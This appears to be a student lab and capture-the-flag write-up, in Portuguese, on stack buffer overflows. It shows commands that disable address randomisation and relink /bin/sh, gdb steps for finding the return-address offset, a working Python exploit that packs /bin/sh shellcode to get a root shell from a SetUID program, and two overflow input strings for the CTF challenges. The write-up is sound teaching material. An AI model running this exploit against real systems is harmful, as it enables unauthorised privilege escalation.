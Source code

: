 ## Task: Invoking the Shellcode

Ao compilar o código com a flag -m32, é possível executar o código como se o sistema fosse de 32-bits. A versão de 64-bits é executada de forma normal, visto que a máquina é desse tipo.

## Task 2: Understanding the Vulnerable Program and Task 3: Launching Attack on 32-bit Program (Level 1)

Através do Makefile, são criados vários programas Stack vulneráveis ao Stack Overflow. Estes programas sendo SetUID será nos possível, usando a shellcode da task anterior, correr shell como root.

Primeiramente, tivemos que desativar a randomização do espaço de endereços e alterar a shell para zsh, devido ao facto de que em programas SetUID a /bin/dash proibir chamadas ao sistema com privilégios root.
```sh
#desativa a randomização de endereços
sudo sysctl -w kernel.randomize_va_space=0

#altera a shell
sudo ln -sf /bin/zsh /bin/sh
```
Ao correr o stack-dbg em debug com a ferramenta gdb é nos possível descobrir a posição do ebp e o topo da stack. Subtraindo estes dois valores conseguimos obter o valor do endereço de retorno. 

* Passo 1: Correr gdb no stack-L1-dbg através do comando 
```sh
gdb stack-L1-dbg
```

* Passo 2: Criar um *breakpoint* na função bof
```sh
b bof
```

* Passo 3: Executar o programa e continuá-lo
```sh
run
continue
```

* Passo 4: Obter o endereço do edp e do stack e subtrair os dois

![Endereço de edp e stack](src/task23_log5.png)

**Conclusão**

Sabemos que o endereço do *frame pointer* é *0xFFFFCA88* e por isso, os endereços de retorno começam *0xFFFFCA88 + 4*.
Sabemos também o endereço do topo do *buffer*
*0xFFFFCA1C* e por isso, o valor do *offset* vai ser esses dois valores subtraidos que dá **108**. Para obter a posição seguinte é somado ao *offset* 4, resultando no valor **112**. Ao ret é somado 250, uma vez que os endereços no programa real são modificados ligeiramente assegurando, assim, que o endereço de retorno seja lido pelo programa mesmo sem estar no modo debug.  
Com esta informação, podemos substituir os valores no ficheiro *exploit* fornecido. 


```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80" 
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)       # Change this number 
content[start:] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xFFFFCA88 + 250         # Change this number 
offset = 112            # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

![Demonstração do Buffer Overflow](src/task23_2_log5.png)

## CTF 5 

### Desafio 1

Basta dar overflow ao buffer1 e conseguimos escrever assim no buffer2 que tem o ficheiro para abrir. Isto é possível, pois o buffer1 ter um tamanho de 20 bytes e o input poder ser de 28.

inputString : "aaaaaaaaaaaaaaaaaaaaflag.txt"

### Desafio 2

Similarmente ao desafio 1, temos de escrever por cima do buffer2 e do buffer3 com valores diferentes. Isto é possível, pois o buffer1 ter um tamanho de 20 bytes e o input poder ser de 32.

inputString : "aaaaaaaaaaaaaaaaaaaa\x22\x21\xfc\xfeflag.txt"